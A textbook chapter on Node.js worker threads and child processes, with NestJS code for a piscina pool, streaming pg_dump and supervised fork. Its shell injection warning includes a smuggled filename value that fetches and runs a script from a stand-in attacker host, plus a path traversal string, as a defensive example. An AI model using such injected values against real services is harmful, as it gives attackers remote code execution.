



## 9.20 Worker threads

#### Concept

A **worker thread** is a second JavaScript execution context inside the same process: its own V8 isolate, its own heap, its own event loop, its own call stack — running on a real operating-system thread, scheduled independently by the kernel on a different core. It shares the process's address space, file descriptors and libuv thread pool with the main thread, but it shares **no JavaScript objects**. Communication is by message passing, not by shared variables.

That last sentence is the design decision that makes worker threads safe. There are no data races on JavaScript objects (9.8), no mutexes around your entities, no `synchronized` blocks. You pay for that safety with the cost of copying data between threads.

Workers exist for exactly one problem: **CPU-bound work that would otherwise block the event loop.** They are not a general concurrency mechanism, and they are not for I/O. If your work is waiting on a socket or a disk, the event loop already handles it better than any thread would.

#### Why does it exist?

Before `worker_threads` (stable since Node 12), the only way to use a second core in Node was `child_process.fork`, which starts an entire new Node process: 30 to 50 MB of memory, 50 to 150 ms of startup, and IPC over a pipe with JSON serialization. For a task like "resize this 4 MB image", that overhead often exceeded the work.

A worker thread starts in 5 to 20 ms, costs 3 to 10 MB of baseline heap, and can transfer an `ArrayBuffer` to the other side with a pointer move instead of a copy. It made real CPU offloading practical inside a single container.

#### Mental model

Imagine your office has one desk (the main thread) where all customer conversations happen. Someone brings in a 300-page contract that needs to be read line by line — an hour of solid work. If you do it at the desk, every customer waits an hour.

A worker thread is a second desk in the same office. You photocopy the contract (structured clone), hand the copy over, and go back to serving customers. The colleague works at their own pace on their own desk with their own filing cabinet, and slides a summary note back when done. You never share a pen: if you both wrote on the same document you would need rules about who writes when, and those rules are exactly the locks we do not want.

If the contract is enormous, you do not photocopy it — you hand over the original folder and give up your access to it (a **transferable**). If both of you genuinely need to see the same live numbers, you put a shared whiteboard between the desks (`SharedArrayBuffer`) and accept that you now need rules about writing on it (`Atomics`, 9.12).

#### How it works



1. `new Worker('./worker.js', { workerData })` creates an OS thread and a fresh V8 isolate on it.
2. The worker loads and runs its script top to bottom, then enters its own event loop.
3. `postMessage(value)` serialises `value` with the **structured clone algorithm** and delivers it to the other side's message queue, where it arrives as a `'message'` event in that thread's event loop.
4. Structured clone handles objects, arrays, `Map`, `Set`, `Date`, `RegExp`, `ArrayBuffer`, `TypedArray`, `BigInt` and circular references. It does **not** handle functions, class prototypes (you get a plain object), DOM-style host objects, or anything with a closure. A TypeORM entity arrives as a plain object with the same fields and none of its methods.
5. Anything in the `transferList` is *moved*, not copied: the sender's `ArrayBuffer` becomes detached (`byteLength === 0`) and the receiver owns the memory. This is O(1) regardless of size.
6. A `SharedArrayBuffer` is genuinely shared memory: both threads see the same bytes with no copy and no transfer, which is why it is the only place in JavaScript where you need `Atomics` (9.12).

#### The cost of message passing

This is the number that decides whether a worker is worth it:

| Payload | Mechanism | Approximate cost |
|---|---|---|
| Small object, ~1 KB | structured clone | 5 to 20 microseconds |
| 1 MB JSON-like object graph | structured clone | 8 to 20 ms (serialize + deserialize, both blocking their own thread) |
| 10 MB `Buffer` | structured clone | 60 to 150 ms, and doubles peak memory |
| 10 MB `ArrayBuffer` | `transferList` | under 0.1 ms, zero copy |
| Any size | `SharedArrayBuffer` | zero, no message needed for the data itself |

**Serialization happens on the sending thread and deserialization on the receiving thread, and both block.** Sending a 10 MB object to a worker blocks your main thread for ~80 ms — you have not offloaded anything, you have merely changed which CPU-bound operation is blocking the loop. If you cannot pass the input as a transferable buffer, ask whether the worker is buying you anything at all.

#### Practical example

The three workloads that genuinely deserve a worker in a typical backend:

- **PDF invoice generation.** Laying out a 12-page invoice with a PDF library is 150 to 600 ms of pure CPU. At 5 invoices per second that is 3 cores of work and a permanently blocked loop.
- **Image resize.** `sharp` already does its work on the libuv pool via native async work, so it does not block the loop — but it competes with `fs` and `dns` for the same four threads (9.18). Moving it to a dedicated worker pool isolates it.
- **High-cost password hashing.** `bcrypt` at cost factor 12 to 14 is 250 ms to 1 s of CPU per call. A dedicated worker pool sized to the CPU count gives you a bounded queue you can measure and shed load from, instead of an invisible libuv queue.

What does *not* deserve a worker: database queries, HTTP calls, file streaming, JSON of a few hundred KB, or "making the API faster" in general.

#### NestJS example

A real service that offloads PDF generation to a worker pool with `piscina`, wired as a NestJS provider with proper lifecycle handling.

```ts
// invoices/invoice-pdf.worker.ts   (compiled to dist/invoices/invoice-pdf.worker.js)
import { renderInvoicePdf } from './render-invoice-pdf';

export interface InvoiceJob {
  orderId: string;
  customerName: string;
  lines: Array<{ sku: string; qty: number; priceCents: number }>;
  totalCents: number;
}

// piscina calls the default export with the message payload and awaits the result.
export default async function generate(job: InvoiceJob): Promise<ArrayBuffer> {
  const buf = await renderInvoicePdf(job);              // ~350 ms of CPU, isolated on this thread
  // Return an ArrayBuffer so piscina can transfer it back with zero copy.
  return buf.buffer.slice(buf.byteOffset, buf.byteOffset + buf.byteLength);
}
```

```ts
// invoices/pdf-pool.service.ts
import { Injectable, OnModuleDestroy, ServiceUnavailableException, Logger } from '@nestjs/common';
import { cpus } from 'node:os';
import { resolve } from 'node:path';
import Piscina from 'piscina';
import type { InvoiceJob } from './invoice-pdf.worker';

@Injectable()
export class PdfPoolService implements OnModuleDestroy {
  private readonly logger = new Logger(PdfPoolService.name);

  private readonly pool = new Piscina({
    filename: resolve(__dirname, 'invoice-pdf.worker.js'),
    minThreads: 1,
    maxThreads: Math.max(1, cpus().length - 1),   // leave a core for the main thread
    maxQueue: 100,                                // bounded: shed load instead of queueing forever
    idleTimeout: 30_000,                          // release threads when idle
    concurrentTasksPerWorker: 1,                  // CPU-bound work: one task at a time per thread
  });

  async generate(job: InvoiceJob): Promise<Buffer> {
    if (this.pool.queueSize >= 100) {
      // Fail fast with 503 + Retry-After rather than letting the queue grow unbounded.
      throw new ServiceUnavailableException('PDF generation is saturated');
    }
    const started = Date.now();
    const ab = (await this.pool.run(job)) as ArrayBuffer;
    this.logger.debug(`invoice ${job.orderId}: ${Date.now() - started} ms (queue ${this.pool.queueSize})`);
    return Buffer.from(ab);
  }

  async onModuleDestroy() {
    await this.pool.destroy();   // graceful shutdown: never leave threads running past SIGTERM
  }
}
```

```ts
// invoices/invoices.controller.ts
import { Controller, Get, Param, StreamableFile, Header } from '@nestjs/common';
import { Readable } from 'node:stream';
import { PdfPoolService } from './pdf-pool.service';
import { InvoicesService } from './invoices.service';

@Controller('orders/:orderId/invoice')
export class InvoicesController {
  constructor(private readonly pdf: PdfPoolService, private readonly invoices: InvoicesService) {}

  @Get()
  @Header('Content-Type', 'application/pdf')
  async download(@Param('orderId') orderId: string): Promise<StreamableFile> {
    const job = await this.invoices.buildJob(orderId);      // I/O-bound: database
    const buffer = await this.pdf.generate(job);            // CPU-bound: worker thread
    return new StreamableFile(Readable.from(buffer));
  }
}
```

The important details: the pool is sized to `cpus().length - 1`, the queue is **bounded** so saturation becomes a 503 rather than a growing memory footprint, the result comes back as a transferable `ArrayBuffer`, and `onModuleDestroy` tears the pool down so `SIGTERM` actually terminates the pod (9.6).

If you would rather not add `piscina`, the raw API is only slightly more code, and it is worth writing once to understand what the library does:

```ts
// A one-shot worker with a timeout - the pattern piscina generalises.
import { Worker } from 'node:worker_threads';

function runOnce<T, R>(file: string, data: T, timeoutMs = 10_000): Promise<R> {
  return new Promise((resolveP, rejectP) => {
    const worker = new Worker(file, { workerData: data, resourceLimits: { maxOldGenerationSizeMb: 256 } });
    const timer = setTimeout(() => worker.terminate().then(() => rejectP(new Error('worker timeout'))), timeoutMs);
    worker.once('message', (r: R) => { clearTimeout(timer); resolveP(r); });
    worker.once('error', (e) => { clearTimeout(timer); rejectP(e); });
    worker.once('exit', (code) => { clearTimeout(timer); if (code !== 0) rejectP(new Error(`worker exited ${code}`)); });
  });
}
```

Note `resourceLimits`: a worker can be given its own heap cap, so a runaway job kills the worker rather than the whole pod. And note `terminate()` — it is the only way to stop a worker stuck in a synchronous loop, because you cannot interrupt JavaScript any other way.

#### SharedArrayBuffer and when you actually need it

Almost never in a web backend. The legitimate case is a large read-mostly dataset that every worker needs and that would be wasteful to copy N times: a 200 MB geospatial index, a pricing matrix, a compiled ruleset. You build it once as a `SharedArrayBuffer`, pass the reference to every worker (references to a `SharedArrayBuffer` are cheap to post), and read from it with a `TypedArray` view.

```ts
// Shared counter across workers - the only correct way to mutate shared memory.
const shared = new SharedArrayBuffer(8);
const counter = new Int32Array(shared);
Atomics.add(counter, 0, 1);            // atomic read-modify-write; counter[0]++ would race
const value = Atomics.load(counter, 0);
```

The moment you mutate shared memory you are writing concurrent C, with all of Part 9's race conditions (9.8) and deadlocks (9.9) back in play. Do it only with `Atomics`, and only when you have measured that copying is the bottleneck.

#### When a worker is the wrong answer

- **The work is I/O-bound.** A worker waiting on a database gives you a second idle event loop and a copy cost. The main loop already did that for free.
- **The payload is large and non-transferable.** Cloning 20 MB of objects to save 30 ms of CPU is a net loss.
- **The work is short.** Under about 5 to 10 ms of CPU, the messaging overhead dominates; chunk with `await setImmediate()` instead (9.16).
- **The work is unbounded or long-running.** A 40-minute report is a **background job** for BullMQ and a separate worker deployment, not a thread inside your API pod. If the pod is redeployed mid-job, a thread's work is lost; a queued job is retried.
- **You just want more throughput.** Add pods. Kubernetes replicas are simpler, independently schedulable and independently restartable.

#### Production scenario

An e-commerce API generates order invoices on demand: 12 requests per second at peak, roughly 350 ms of CPU each. Before workers, on 4 pods of 2 vCPU, invoice requests consumed 4.2 cores of the 8 available, event-loop lag peaked at 380 ms and the p99 of *every other endpoint* rose to 640 ms. Product complained that "search is slow", and search had not changed at all.

After moving to a `piscina` pool with `maxThreads = 1` per 2 vCPU pod (one core for the main thread, one for the worker), main-thread loop lag dropped to 6 ms and the p99 for other endpoints returned to 45 ms. Invoice p99 rose slightly, from 380 ms to 520 ms, because invoices now queue for a dedicated thread — and that is the correct tradeoff: one slow endpoint instead of a slow application.

#### Failure scenario

At 03:40 a pod running an image-processing service went into `CrashLoopBackOff` with `OOMKilled`. The pod limit was 1 GiB and `--max-old-space-size=768` was set on the main thread, which the team believed was safe.

The service created a new `Worker` per upload rather than pooling. Each worker had its **own** V8 heap, and no `resourceLimits`, so each defaulted to a heap far above what the container could afford. During a burst of 12 concurrent uploads there were 12 live isolates, each holding a decoded 40 MB bitmap. Total RSS crossed 1 GiB and the kernel's OOM killer terminated the container. The main thread's `--max-old-space-size` had constrained exactly one of the thirteen heaps in the process.

Fixes: a fixed-size pool (`maxThreads: 2`) instead of unbounded worker creation, `resourceLimits: { maxOldGenerationSizeMb: 192 }` per worker, a bounded queue returning 503 under load, and a corrected heap budget (9.26) that accounts for *all* isolates in the process, not just the main one.

#### Edge cases & failure modes

- Each worker is a full V8 isolate: expect 3 to 10 MB baseline plus its own heap growth. `--max-old-space-size` on the process applies to the **main isolate only**; workers need `resourceLimits`.
- Workers do not inherit the main thread's module registry state. Anything expensive at module load (config parsing, entity metadata, opening a database pool) happens **per worker**.
- Do not open a database connection pool inside a worker unless you mean it: 4 workers times 20 connections is 80 connections per pod, times 10 pods is 800, which PostgreSQL will refuse.
- A worker stuck in an infinite synchronous loop can only be stopped with `terminate()`; there is no interrupt.
- `worker.terminate()` does not run cleanup handlers. Anything the worker was writing is lost mid-write.
- An uncaught exception in a worker emits `'error'` on the parent handle; if you do not listen, some Node versions surface it as an uncaught exception on the main thread. Always attach `error` and `exit` handlers.
- Console output, `process.env` and `process.exit()` are shared or process-wide: calling `process.exit()` inside a worker kills the whole process.
- Structured clone drops class identity. An entity crossing the boundary is a plain object; `instanceof Order` is false and getters are gone.
- Debugging is harder: `--inspect` attaches to the main thread; workers need `--inspect-brk` plus `execArgv`, and heap snapshots are per-isolate.
- Workers and the libuv pool are separate resources but share CPU. Six workers on a 2 vCPU pod means each gets a third of a core and CFS throttling (9.2).

#### How a Senior Backend Engineer thinks about this

They ask three questions before reaching for a worker: *Is this actually CPU-bound? How many milliseconds? Can the input be transferred instead of cloned?* If the answers are yes, over 50 ms, and yes, they pool it with a bounded queue and a timeout. If the work is over a second or must survive a restart, they refuse the worker entirely and put it on a queue with a separate deployment, because a thread is not durable and a job is.

They size the pool to cores, not to requests. They budget the heap for every isolate in the process. And they insist that a saturated pool returns 503 quickly rather than queueing quietly, because a fast failure is a better customer experience and a much better signal.

To a product manager: "PDF rendering is genuinely slow work. We moved it to a side desk so it stops slowing down everything else. It is still slow, but only for PDFs."

#### Common mistakes

- Creating a worker per request instead of pooling.
- Unbounded queues, so load turns into memory growth and then OOMKilled.
- Cloning megabytes of data and calling it offloading.
- Forgetting `resourceLimits`, so worker heaps escape the container budget.
- No `onModuleDestroy` teardown, so `SIGTERM` hangs and Kubernetes escalates to `SIGKILL` after the grace period (9.6).
- Using workers for database or HTTP work.
- Expecting `instanceof` and class methods to survive `postMessage`.

#### Interview questions

1. *What does a worker thread share with the main thread and what does it not?* Expected: shares the process, address space, fds and libuv pool; does not share the V8 heap or any JavaScript object. Communication is structured clone, transfer or `SharedArrayBuffer`.
2. *When is a worker thread the wrong tool?* Expected: I/O-bound work, sub-10 ms tasks, large non-transferable payloads, long or durable jobs (use a queue), or when adding pods is simpler.
3. *You send a 10 MB object to a worker and the main thread still stalls. Why?* Expected: structured clone serialises on the sender's thread; use a transferable `ArrayBuffer` or `SharedArrayBuffer`.
4. *How do you cap memory for workers in a 1 GiB container?* Expected: `resourceLimits.maxOldGenerationSizeMb` per worker plus a bounded pool; `--max-old-space-size` only covers the main isolate.
5. *How do you stop a worker stuck in a synchronous loop?* Expected: `worker.terminate()`, which is abrupt and skips cleanup; prevention is a task timeout in the pool.
6. *Compare worker threads with `child_process.fork` and with more Kubernetes replicas.* Expected: threads are cheapest and share the process (a crash can take everything); forks isolate but cost memory and startup; replicas are the simplest scaling unit and the default answer.

#### Practical exercise

Build an endpoint that renders a PDF taking about 300 ms of CPU. Load it at 10 requests per second while also hitting a trivial `GET /health`, and record loop lag and both endpoints' p99. Then move rendering into a `piscina` pool sized to `cpus().length - 1` with `maxQueue: 50`, and measure again. Finally, add a 5 MB payload passed as a plain object and then as a transferred `ArrayBuffer`, and measure main-thread blocking for each.

Acceptance criteria: a before/after table showing health-endpoint p99 recovering; evidence that a saturated pool returns 503 rather than growing RSS; and measured proof that transfer is at least an order of magnitude cheaper than clone for the 5 MB payload.

## 9.21 Child processes

#### Concept

A **child process** is a separate operating-system process that your Node process starts and controls. It has its own PID, its own memory, its own file descriptors, and its own lifetime. Node gives you four ways to create one, and the differences between them are the source of a surprising number of production incidents.

| API | Shell involved | Output handling | Typical use |
|---|---|---|---|
| `spawn(cmd, args)` | No | **Streams** (`stdout`, `stderr`) | Long-running or large-output commands: `ffmpeg`, `pg_dump` |
| `exec(commandString)` | **Yes** (`/bin/sh -c`) | Buffered into a string, capped at `maxBuffer` (1 MB default) | Short commands where you want the whole output; the dangerous one |
| `execFile(file, args)` | No | Buffered, same `maxBuffer` cap | Short commands without shell risk |
| `fork(modulePath)` | No | Streams plus a built-in IPC channel | A second **Node** process you want to message with `send()` |

#### Why does it exist?

Some jobs are not JavaScript. `pg_dump` produces a correct PostgreSQL backup; reimplementing it would be reckless. `ffmpeg` transcodes video; nothing in npm comes close. `libreoffice --headless` converts documents. When the right tool is a binary, you run the binary — in its own process, so that if it segfaults or leaks 4 GB, your API survives.

Processes also give hard isolation that threads do not: separate address space, separate crash domain, separate resource limits, and the ability to kill something without corrupting your own state.

#### Mental model

A worker thread is a colleague at the next desk in your office: fast to bring in, but if they set the building on fire you burn too. A child process is a contractor in their own van. Slower to call out, they cannot see your files unless you hand them over, and if their van breaks down you just call another one.

#### How it works



1. Node calls `fork()` (or `posix_spawn`) to create the process and `execve()` to replace its image with the target binary.
2. The kernel creates pipes for stdin, stdout and stderr and connects them to the parent's file descriptors. These are ordinary descriptors, so they are watched by `epoll` and **do not use the libuv pool**.
3. The child runs on its own core, fully independent. Its CPU usage counts against the container's CPU limit, and its memory against the container's memory limit — a fact people forget until they get OOMKilled.
4. Output arrives as pipe readability events in the poll phase and is emitted as `'data'` on the stream.
5. On exit the kernel sends `SIGCHLD`; Node emits `'exit'` with the code and signal, then `'close'` once the stdio streams are fully drained. **`close` is the event you want** when you care about having all the output.

#### Practical example: streaming `pg_dump` to object storage

The correct way to run a large-output command: `spawn`, never `exec`, and stream rather than buffer.

```ts
// backups/backup.service.ts
import { Injectable, Logger, InternalServerErrorException } from '@nestjs/common';
import { spawn } from 'node:child_process';
import { createGzip } from 'node:zlib';
import { pipeline } from 'node:stream/promises';
import { Upload } from '@aws-sdk/lib-storage';
import { S3Client } from '@aws-sdk/client-s3';

@Injectable()
export class BackupService {
  private readonly logger = new Logger(BackupService.name);
  constructor(private readonly s3: S3Client) {}

  async dumpToS3(database: string, key: string): Promise<void> {
    const child = spawn(
      'pg_dump',
      ['--format=plain', '--no-owner', '--no-privileges', `--dbname=${database}`],
      {
        // Never interpolate secrets into a shell string. Pass them in the environment.
        env: { ...process.env, PGPASSWORD: process.env.PGPASSWORD ?? '' },
        stdio: ['ignore', 'pipe', 'pipe'],
        timeout: 30 * 60_000,          // kill after 30 minutes
        killSignal: 'SIGTERM',
      },
    );

    let stderr = '';
    child.stderr.on('data', (c: Buffer) => { stderr += c.toString(); if (stderr.length > 64_000) stderr = stderr.slice(-64_000); });

    const upload = new Upload({
      client: this.s3,
      params: { Bucket: 'db-backups', Key: key, Body: child.stdout.pipe(createGzip()) },
      queueSize: 4,
      partSize: 16 * 1024 * 1024,      // streamed multipart: memory stays flat
    });

    const [exitCode] = await Promise.all([
      new Promise<number>((res, rej) => {
        child.once('error', rej);                       // ENOENT: binary not found
        child.once('close', (code) => res(code ?? -1)); // 'close', not 'exit': stdio is drained
      }),
      upload.done(),
    ]);

    if (exitCode !== 0) {
      this.logger.error(`pg_dump exited ${exitCode}: ${stderr}`);
      throw new InternalServerErrorException('backup failed');
    }
    this.logger.log(`backup ${key} complete`);
  }
}
```

Memory stays flat at a few tens of megabytes for a 40 GB dump, because nothing is ever fully in memory: `pg_dump` writes to a pipe, gzip transforms, the S3 uploader sends 16 MB parts, and TCP backpressure (9.24) slows `pg_dump` down automatically if the network is slow.

#### The `exec` traps

Two failure modes, both common, both severe.

**1. `maxBuffer` overflow.** `exec` and `execFile` accumulate stdout in memory and abort the child when it exceeds `maxBuffer` (default 1 MB).

```ts
// Broken: works in dev with 12 test rows, dies in production with 4 million.
exec(`pg_dump --dbname=${db}`, (err, stdout) => { /* err.code === 'ERR_CHILD_PROCESS_STDIO_MAXBUFFER' */ });
```

The error surfaces as a truncated, killed child. People "fix" it with `maxBuffer: 1024 * 1024 * 1024`, which turns a truncation bug into an OOMKill. The real fix is `spawn` plus streaming.

**2. Shell injection.** `exec` runs the string through `/bin/sh -c`. Any user-controlled substring is code.

```ts
// Catastrophic. filename comes from an upload request.
exec(`ffmpeg -i /uploads/${filename} -vf scale=640:-1 /out/${filename}.mp4`, cb);
// filename = "a.mp4; curl http://attacker/x.sh | sh #"
// The shell runs both commands. This is remote code execution.

// Correct: no shell, arguments are passed as a vector the shell never sees.
execFile('ffmpeg', ['-i', `/uploads/${filename}`, '-vf', 'scale=640:-1', `/out/${safeName}.mp4`], cb);
```

Even with `execFile` you must validate the filename against a strict allowlist (`/^[A-Za-z0-9_-]{1,64}\.(mp4|mov)$/`) so that a value like `../../etc/passwd` cannot escape the directory. Argument vectors stop shell injection; they do not stop path traversal.

The rule: **`exec` is only acceptable for a fully static command string with no interpolation at all**, and even then `execFile` is better.

#### NestJS example: `fork` for a child Node process

`fork` is the one that gives you a message channel to another Node process. It is useful for a long-lived helper you want fully isolated from the API process.

```ts
// media/transcoder.gateway.ts
import { Injectable, OnModuleInit, OnModuleDestroy, Logger } from '@nestjs/common';
import { fork, ChildProcess } from 'node:child_process';
import { resolve } from 'node:path';
import { randomUUID } from 'node:crypto';

interface TranscodeReply { id: string; ok: boolean; outputKey?: string; error?: string }

@Injectable()
export class TranscoderGateway implements OnModuleInit, OnModuleDestroy {
  private readonly logger = new Logger(TranscoderGateway.name);
  private child!: ChildProcess;
  private readonly pending = new Map<string, { resolve: (r: TranscodeReply) => void; reject: (e: Error) => void }>();

  onModuleInit() { this.start(); }

  private start() {
    this.child = fork(resolve(__dirname, 'transcoder.child.js'), [], {
      execArgv: ['--max-old-space-size=256'],           // its own heap budget, inside the pod limit
      env: { ...process.env, ROLE: 'transcoder' },
    });
    this.child.on('message', (m: TranscodeReply) => { this.pending.get(m.id)?.resolve(m); this.pending.delete(m.id); });
    this.child.on('exit', (code, signal) => {
      this.logger.error(`transcoder exited code=${code} signal=${signal}; restarting`);
      for (const p of this.pending.values()) p.reject(new Error('transcoder crashed'));
      this.pending.clear();
      setTimeout(() => this.start(), 1_000).unref();     // supervised restart with a delay
    });
  }

  send(inputKey: string, timeoutMs = 120_000): Promise<TranscodeReply> {
    const id = randomUUID();
    return new Promise((res, rej) => {
      this.pending.set(id, { resolve: res, reject: rej });
      const t = setTimeout(() => { this.pending.delete(id); rej(new Error('transcode timeout')); }, timeoutMs);
      this.child.send({ id, inputKey }, (err) => { if (err) { clearTimeout(t); rej(err); } });
    });
  }

  async onModuleDestroy() {
    this.child.kill('SIGTERM');
    await new Promise<void>((r) => this.child.once('exit', () => r()));
  }
}
```

Note the supervision: children die, and a parent that does not restart them turns a transient crash into a permanent outage. Note also the timeout on every request, and the rejection of pending promises on exit — otherwise callers hang forever.

#### Zombie processes

When a child exits, the kernel keeps a small entry in the process table holding its exit status until the parent **reaps** it with `wait()`. Until then, the child is a **zombie**: it uses no memory and no CPU, but it occupies a PID slot. Millions of zombies exhaust the PID space and no new process can start.

Node reaps children automatically as long as your process is alive and running its event loop, so classic zombies are rare in pure Node. The version you *will* meet in production is different and worse:

- **Orphans that outlive you.** If your Node process is killed with `SIGKILL`, its children are re-parented to PID 1 and keep running. In a container, an `ffmpeg` orphan keeps burning CPU inside the pod's cgroup after your app has restarted.
- **PID 1 in containers.** If your Node process *is* PID 1, it inherits the duty of reaping every orphaned grandchild in the container, and Node does not do that. A shell script that spawns processes will leave zombies. This is precisely what `tini` or `docker run --init` fixes, and why the Dockerfile pattern is `ENTRYPOINT ["/sbin/tini", "--", "node", "dist/main.js"]`.
- **Detached process groups.** `spawn(..., { detached: true })` puts the child in its own process group. `child.kill()` then kills only the leader; to kill the whole tree you need `process.kill(-child.pid, 'SIGTERM')` with the negative PID.

Always kill children on shutdown:

```ts
// main.ts - graceful shutdown must include the process tree
app.enableShutdownHooks();
process.on('SIGTERM', () => { for (const c of activeChildren) c.kill('SIGTERM'); });
```

#### Production scenario

A document service converts uploaded DOCX files to PDF with `libreoffice --headless`, roughly 2.5 seconds and 300 MB of RSS per conversion. It runs as a separate deployment consuming a BullMQ queue with concurrency 2 per pod, pods limited to 1 GiB. The choice of a child process rather than a worker thread is deliberate: LibreOffice is not JavaScript, it leaks memory across conversions, and it occasionally hangs. Each conversion gets a 60-second timeout, and a hung child is killed with `SIGKILL` after `SIGTERM` fails for 5 seconds. Because it is a separate process, a hang costs one job, not the pod.

The capacity arithmetic is simple and worth doing out loud: 2 concurrent conversions at 300 MB is 600 MB, plus Node's own 200 MB, is 800 MB against a 1 GiB limit. Concurrency 3 would OOMKill. Concurrency is a memory decision, not a throughput decision.

#### Failure scenario

At 16:10 a video pipeline's pods began flapping between `Running` and `OOMKilled`, but the Node heap in the metrics was a steady 180 MB. The team spent an hour looking for a JavaScript memory leak that did not exist.

The cause: `ffmpeg` children. The pod limit was 2 GiB and the cgroup accounts for **every process in the container**, not just Node. A queue with concurrency 4 was spawning 4 `ffmpeg` processes, each using 400 to 600 MB on 4K input. Node's heap metric never moved because the memory was not in Node's heap. The kernel OOM killer picked the largest process, which was sometimes `ffmpeg` (job fails, retried, fine) and sometimes Node itself (pod dies).

Fixes: concurrency reduced to 1, `-threads 2` passed to `ffmpeg` to cap its own CPU and memory appetite, a hard timeout with `SIGKILL` escalation, and — most importantly — the pod's memory alert changed from "Node heap" to **container RSS**, which is the only number the OOM killer cares about (9.25, 9.26).

#### Edge cases & failure modes

- `error` fires for `ENOENT` (binary missing), which is a different event from a non-zero exit code. Handle both.
- `exit` fires before stdio is drained; `close` fires after. Reading output on `exit` can truncate.
- `maxBuffer` overflow kills the child with a confusing error; raising it invites OOM.
- `exec` with any interpolated user input is remote code execution.
- A child that ignores `SIGTERM` needs `SIGKILL` escalation after a grace period, exactly like Kubernetes does to you (9.6).
- Children inherit `process.env`, including every secret. Pass a filtered env for third-party binaries.
- Child memory and CPU count against the container's cgroup limits.
- Backpressure applies to `child.stdin`: writing faster than the child reads fills the pipe (64 KB) and `write()` returns false; ignore it and you buffer in your heap.
- Without an init process, PID 1 Node does not reap orphaned grandchildren.
- Zombie accumulation shows as `ps aux | grep defunct` and eventually `EAGAIN` on `fork`.

#### How a Senior Backend Engineer thinks about this

They default to `spawn` with an argument array and treat `exec` as a code smell that needs justification. They put every child behind a timeout, a kill escalation and a supervisor. They budget container memory for the whole process tree, not for Node. They ask whether the child belongs in the API pod at all — usually it does not, and the answer is a queue plus a dedicated worker deployment, so that a hung `ffmpeg` cannot slow a checkout.

To a product manager: "Video conversion runs in its own sandbox. If it crashes, we lose that one video and retry it, not the website."

#### Common mistakes

- `exec` with template literals containing user input.
- Reading output on `exit` instead of `close`.
- No timeout, so one hung child holds a queue slot forever.
- Ignoring `stderr`, then having no idea why a job failed.
- Forgetting that container limits cover children.
- No init process in the image, so orphans and zombies accumulate.
- Killing only the leader of a detached process group.

#### Interview questions

1. *Compare `spawn`, `exec`, `execFile` and `fork`.* Expected: shell versus no shell, streamed versus buffered, and `fork` adding an IPC channel to a Node child.
2. *Why is `exec` dangerous?* Expected: shell interpretation means injection; plus `maxBuffer` truncation on large output. Follow-up: how do you safely pass a user-supplied filename? Argument array plus an allowlist regex.
3. *What is a zombie process and how does one appear in a container?* Expected: an exited child not yet reaped; in containers, Node as PID 1 not reaping orphaned grandchildren — fix with `tini` or `--init`.
4. *Your pod is OOMKilled but Node's heap is 180 MB. What happened?* Expected: child processes count against the cgroup; measure container RSS, not heap.
